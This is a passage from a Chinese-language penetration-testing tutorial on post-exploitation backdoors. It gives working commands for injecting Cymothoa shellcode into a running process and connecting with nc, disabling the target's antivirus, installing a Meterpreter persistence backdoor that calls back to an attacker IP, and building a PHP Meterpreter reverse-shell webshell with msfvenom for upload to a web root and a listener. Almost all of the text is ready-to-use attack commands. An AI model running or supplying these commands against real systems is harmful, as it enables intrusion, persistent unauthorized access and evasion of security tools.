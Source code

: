 攻击后得到Meterpreter会话：

```
exploit #或run
```

## 后门植入

### Cymothoa后门

将Cymothoa可执行程序上传到目标主机上。

在Bash中，先利用ps -aux或tasklist查看选择哪个宿主进程及其PID。例如PID为982的进程为宿主进程，服务端口4444，第一类ShellCode：

```bash
cymothoa -S #列出具体各类ShellCode
cymothoa -p 982 -s 1 -y 4444
```

成功后直接连接：

```bash
nc -nvv 192.168.31.247 4444
```

### Persistence后门

先关闭目标机器杀毒软件。在Meterpreter中，查看帮助：

```
run persistence -h
```

创建持久性后门。-A自启动Payload，-S系统启动时自加载，-U用户登陆时自启动，-X开机自启动，-i回连时间间隔，-P监听反向连接端口号，-r目标IP地址。

```
run persistence -A -S -U -i 60 -p 4321 -r 192.168.172.138
```

查看成功获取的会话：

```
sessions
```

## WebShell

### Meterpreter后门

-p设置Payload，-f输出文件格式，制作PHP Meterpreter：

```bash
msfvenom -p php/meterpreter/reverse tcp lhost=192.168.31.247 -f raw > shuteer.php
```

想办法把shuteer.php上传到/var/www/html，启动MSF，设置监听：

```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.31.247
run
```
